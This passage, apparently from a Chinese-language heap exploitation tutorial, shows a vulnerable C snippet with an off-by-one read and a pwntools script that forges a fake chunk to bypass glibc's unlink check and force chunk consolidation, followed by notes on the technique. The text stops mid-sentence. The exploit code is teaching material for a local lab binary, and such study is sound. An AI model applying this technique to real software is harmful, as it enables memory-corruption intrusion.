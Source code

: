 ```c
    printf("input s1\n");
    read(0, s1, 0x19); //Off By One
    free(s2);
    return 0;
}
```

攻擊代碼如下：

```python
from pwn import *

p = process("./example")
context.log_level = 'debug'
#gdb.attach(p)
p.recvuntil("begin\n")
address = int(p.recvline().strip(), 16)
p.recvuntil("input s0\n")
payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0
'''
p64(address) * 2是爲了繞過
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr ("corrupted double-linked list");
'''
payload += p64(0x100) #fake size
p.sendline(payload)
p.recvuntil("input s1\n")
payload = "A"*0x10 + p64(0x220) + "\x00"
p.sendline(payload)
p.recvall()
p.close()
```

**注意這裏繞過unlink檢查的方法跟之前利用unlink漏洞時採用的方法不一樣**

利用unlink漏洞的時候：

```c
 p->fd = &p-3*4
 p->bk = &p-2*4
```

在這裏利用時，因爲沒有辦法找到 `&p`  ,所以直接讓：

```c
p->fd = p
p->bk = p
```

**這裏需要注意一個點：**

```python
payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0
```

其實修改爲下面這樣也是可以的:
